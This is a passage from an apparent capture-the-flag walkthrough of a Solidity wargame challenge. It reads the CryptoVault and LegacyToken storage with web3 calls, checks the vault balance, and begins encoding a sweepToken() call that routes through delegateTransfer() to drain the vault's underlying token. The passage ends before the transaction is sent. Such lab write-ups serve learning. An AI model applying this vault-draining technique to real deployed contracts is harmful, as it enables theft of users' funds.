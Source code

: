Get the `CryptoVault` and `LegacyToken` contracts addresses.

```js
vault = await contract.cryptoVault()
'0x1A82fBF3aF7542B550D2850b708E6F4D423E44fa'
```

```js
legacy = await contract.delegatedFrom()
'0x009e22b7A97A80f8Fa89CE23854D4EF134F510E6'
```

After then, get the variables values from the storage of contracts with `getStorageAt()` method.

```js
await web3.eth.getStorageAt(vault, 1)
'0x000000000000000000000000ce7840ab1c857db85387f39bf8e4393cbc985db0'
```

```js
await web3.eth.call({from:player, to:legacy, data:'0xc89e4361'}) // this a getter function for 'delegate'
'0x000000000000000000000000ce7840ab1c857db85387f39bf8e4393cbc985db0'
```

As you can see, this values are same. Time to exploit this!

## Subverting

Before exploit this challenge, check the balance of `CryptoVault` contract.

```js
await contract.balanceOf(vault).then(b => b.toString());
'100000000000000000000'
```

Next, let's call `sweepToken()` with encoding function's informations and legacy contract's address as a parameter to start trigger `delegateTransfer()`.

```js
const _function = {
  "inputs": [
    { 
      "name": "token",
      "type": "address"
    }
  ],
  "name": "sweepToken", 
  "type": "function"
};
```

```js
const param = [legacy];
```

```js
const data = web3.eth.abi.encodeFunctionCall(_function, param);
```
